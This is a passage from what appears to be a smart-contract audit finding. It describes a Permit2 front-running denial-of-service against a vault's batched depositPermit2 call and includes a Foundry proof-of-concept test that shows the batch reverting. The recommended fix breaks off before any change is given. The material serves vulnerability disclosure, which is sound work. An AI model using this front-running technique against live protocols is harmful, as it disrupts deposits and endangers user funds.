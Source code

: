 Besides the risk of stealing depositor funds, there is another implication that allows an attacker to carry out a Denial of Service (DoS) attack, as described in this [article](https://www.trust-security.xyz/post/permission-denied) and in the PoC below:

```solidity
function testDoS() public {
    batches = zeroBatches;
    token1.mint(lender, amount);
    // Alice signs a transaction allowing a third party to deposit on her behalf
    vm.startPrank(lender);
    token1.approve(address(permit2), 2 ** 256 - 1);
    IAllowanceTransfer.PermitSingle memory permit = IAllowanceTransfer.PermitSingle({
        details: IAllowanceTransfer.PermitDetails({
            token: address(token1),
            amount: uint160(amount),
            expiration: uint48(block.timestamp + 1000),
            nonce: 0
        }),
        spender: address(vault1),
        sigDeadline: block.timestamp + 1000
    });
    bytes memory sig = getPermitSignature(permit, lenderPrivateKey, permit2.DOMAIN_SEPARATOR());

    // third party want send a transaction to depositPermit2 and mint dr on behalf of Alice
    data = abi.encodeWithSelector(
        ERC20VaultPattern.depositPermit2.selector, permit, address(lender), sig, uint160(amount)
    );
    batch = IBaseLayer.BatchItem(address(vault1), data);
    batches.push(batch);
    data = abi.encodeWithSelector(BaseLayer.drMint.selector, address(vault1), accountIdLender, amount);
    batch = IBaseLayer.BatchItem(address(baseLayer), data);
    batches.push(batch);

    // Bob frontruns the above tx with a permit call
    vm.startPrank(maliciousUser);
    IAllowanceTransfer(address(permit2)).permit(address(lender), permit, sig);

    // third party batch call
    vm.startPrank(lender2);
    vm.expectRevert();
    baseLayer.dispatchBatch(batches);
}
```
#### Impact

High. An attacker can steal depositor funds, and DoS attacks can disrupt protocols built on top of `BaseLayer` that rely on the permit functionality.

#### Recommendation

To mitigate the DoS issue you need to change `_permit2()`:
